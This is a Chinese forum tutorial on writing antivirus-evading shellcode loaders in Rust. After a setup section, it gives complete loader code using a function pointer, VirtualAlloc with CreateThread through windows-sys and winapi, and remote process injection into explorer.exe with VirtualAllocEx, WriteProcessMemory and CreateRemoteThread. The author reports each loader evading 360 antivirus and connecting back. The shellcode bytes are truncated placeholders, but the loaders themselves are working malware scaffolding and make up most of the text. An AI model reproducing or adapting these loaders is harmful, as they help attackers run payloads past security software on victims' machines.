

# 利用rust来免杀 - 先知社区

利用rust来免杀

- - -

## 环境安装

既然是要进行rust免杀，自然要安装rust的环境，rust与go一样，可以做到跨平台编译  
在Linux或Macos下可以直接用包管理安装即可，windows下推荐用scoop，这是一款非常好用的windows包管理软件。  
在windows上安装好后,执行以下命令即可

```plain
scoop install rust
```

我们还可以安装rustup来切换rust的版本  
windows命令

```plain
scoop install rustup
```

Linux和Macos则可以运行以下命令

```plain
$ curl --proto '=https' --tlsv1.2 https://sh.rustup.rs -sSf | sh
```

或者也可以用包管理软件  
之后我们可以使用==rustc -V==和==cargo -V==来查看是否正确安装了 Rust，可打开终端并输入下面这两个命令，就能看到最新发布的稳定版本的版本号、提交哈希值和提交日期

[](https://xzfile.aliyuncs.com/media/upload/picture/20231104232108-c7a374bc-7b25-1.png)

到这出现具体的版本号则说明我们的rust已经安装完成

## 基本加载器

下面一段是使用函数指针实现的基本的加载器

```plain
#![windows_subsystem = "windows"]

fn main() {


    #[link_section = ".text"]
    static shellcode: [u8; 3] = [ 0xfc, 0x48, 0x83];  // shellcode

    let shellcode_ptr: *const u8 = &shellcode as *const u8;

    unsafe {
        let exec_shellcode = std::mem::transmute::<*const u8, fn()>(shellcode_ptr);
        exec_shellcode();

    }

}
```

这段是比较基础的shellcode，其中使用了==mem::transmute==来执行了我们的shellcode  
之后指定编译的平台为==x86\_64-pc-windows-msvc==

```plain
rustup default nightly-x86_64-pc-windows-msvc
```

编译

```plain
cargo build --release
```

之后运行上线

[](https://xzfile.aliyuncs.com/media/upload/picture/20231104232118-cd2d5790-7b25-1.png)

可以看到上线成功

## windows的api

跟其他大多数的语言一样，rust也集成了windows的api,这样我们就可以来调用加载我们的shellcode,这里我们用到两个库windows-sys和winapi。

### windows-sys

首先要引用==windows-sys==，要引用它，我们往==Cargo.toml==引入以下依赖

```plain
windows-sys = { version = "0.48.0", features = ["Win32_Foundation", "Win32_System_Threading", "Win32_Security", "Win32_System_Memory"] }
```

下面是一个基本的加载器，我们以最基础的VirtualAlloc来测试360最新版

```plain
#![windows_subsystem = "windows"]

use windows_sys; 
use std::{ptr, ffi::c_void};

fn main() {
    let shellcode: [u8; 3] = [ 0xfc, 0x48, 0x83];  // shellcode

    // 执行shellcode
    exec(&shellcode);
}

fn exec(shellcode: &[u8]) {
    unsafe {
        // 使用VirtualAlloc初始化shellcode
        let exec_shellcode = windows_sys::Win32::System::Memory::VirtualAlloc(
            ptr::null_mut(), // 分配内存
            shellcode.len(), 
            windows_sys::Win32::System::Memory::MEM_COMMIT
                | windows_sys::Win32::System::Memory::MEM_RESERVE, 
            windows_sys::Win32::System::Memory::PAGE_EXECUTE_READWRITE, 
        );

        // 复制shellcode到RWX内存
        std::ptr::copy(
            shellcode.as_ptr(),
            exec_shellcode as *mut u8,
            shellcode.len(),
        );

        // 使用CreateThread来执行一个线程
        // 使用transmute转换为函数指针
        let exec_shellcode_pointer: extern "system" fn(*mut c_void) -> u32 =
            { std::mem::transmute(exec_shellcode) };
        let thread_handle = windows_sys::Win32::System::Threading::CreateThread(
            ptr::null_mut(),
            0,
            Some(exec_shellcode_pointer),
            ptr::null_mut(),
            0,
            ptr::null_mut(),
        );

        windows_sys::Win32::System::Threading::WaitForSingleObject(
            thread_handle,
            windows_sys::Win32::System::Threading::INFINITE,
        );

        // 释放之前分配的内存并关闭线程句柄
        windows_sys::Win32::System::Memory::VirtualFree(
            exec_shellcode,
            0,
            windows_sys::Win32::System::Memory::MEM_RELEASE,
        );
        windows_sys::Win32::Foundation::CloseHandle(thread_handle);
    }
}
```

之后编译运行，成功免杀上线

[](https://xzfile.aliyuncs.com/media/upload/picture/20231104232126-d24f6e70-7b25-1.png)

### winapi

和==windows-sys==一样，首先还是在==Cargo.toml==引入依赖

```plain
winapi = { version = "0.3.9", features = ["winuser", "memoryapi", "synchapi", "handleapi", "errhandlingapi", "processthreadsapi"] }
```

实现代码如下

```plain
#![windows_subsystem = "windows"]

use winapi::um::memoryapi::VirtualAlloc;
use winapi::um::processthreadsapi::CreateThread;
use winapi::um::synchapi::WaitForSingleObject;

fn main() {
    // 存储新进程的id
    let mut thread_id = 0;

    let shellcode: [u8; 3] = [0xfc, 0x48, 0x83];  // shellcode

    unsafe {
        // 分配可执行内存
        let mem_alloc = VirtualAlloc(std::ptr::null_mut(), shellcode.len(), 0x00001000, 0x40);
        std::ptr::copy(shellcode.as_ptr() as *const u8, mem_alloc as *mut u8, shellcode.len());

        // 执行shellcode
        let thread_exec = CreateThread(std::ptr::null_mut(), 0, Some(std::mem::transmute(mem_alloc)), std::ptr::null_mut(), 0, &mut thread_id);
        WaitForSingleObject(thread_exec, 0xFFFFFFFF);   //等待线程执行
    }
}
```

测试上线成功

[](https://xzfile.aliyuncs.com/media/upload/picture/20231104232143-dc6a4506-7b25-1.png)

## 进程注入

上面介绍了shellcode的直接执行，下面我们可以进行进程注入的操作，这里我们多引入一个==sysinfo==的库  
首先还是往==Cargo.toml==引入以下依赖

```plain
sysinfo = "0.29.10"
windows-sys = { version = "0.48.0", features = ["Win32_Foundation", "Win32_System_Threading", "Win32_Security", "Win32_System_Memory", "Win32_System_Diagnostics_Debug"] }
```

这里以CreateRemoteThread来执行

```plain
#![windows_subsystem = "windows"]

use std::ptr;
use sysinfo::{PidExt, ProcessExt, System, SystemExt}; 
use windows_sys::Win32::{
    Foundation::*,
    System::{Diagnostics::Debug::*, Threading::*, Memory::*},
};

fn main() {
    let shellcode: [u8; 3] = [0xfc, 0x48, 0x83, ];  // shellcode

    let s = System::new_all();
    let process_id: u32 = s
        .processes_by_name("explorer") // 注入explorer进程
        .next() 
        .unwrap() 
        .pid() 
        .as_u32(); 

    inject(&shellcode, process_id);
}


fn inject(shellcode: &[u8], process_id: u32) {
    unsafe {
        // 使用OpenProcess获取进程的句柄
        let p_handle = OpenProcess(PROCESS_ALL_ACCESS, 0, process_id);

        // 分配RWX内存
        let r_ptr = VirtualAllocEx(
            p_handle,
            ptr::null(),
            shellcode.len(),
            MEM_COMMIT,
            PAGE_EXECUTE_READWRITE,
        );

        // 写入shellcode到注入的进程
        let mut bytes_written = 0;
        WriteProcessMemory(
            p_handle,
            r_ptr,
            shellcode.as_ptr() as _, 
            shellcode.len(),
            &mut bytes_written,
        );

        // 使用CreateRemoteThread来执行
        let t_handle = CreateRemoteThread(
            p_handle,
            ptr::null(),
            0,
            Some(std::mem::transmute(r_ptr)), 
            ptr::null(),
            0,
            ptr::null_mut(),
        );

        CloseHandle(t_handle);
        CloseHandle(p_handle);
    }
}
```

编译运行，成功实现进程注入

[](https://xzfile.aliyuncs.com/media/upload/picture/20231104232134-d7242472-7b25-1.png)
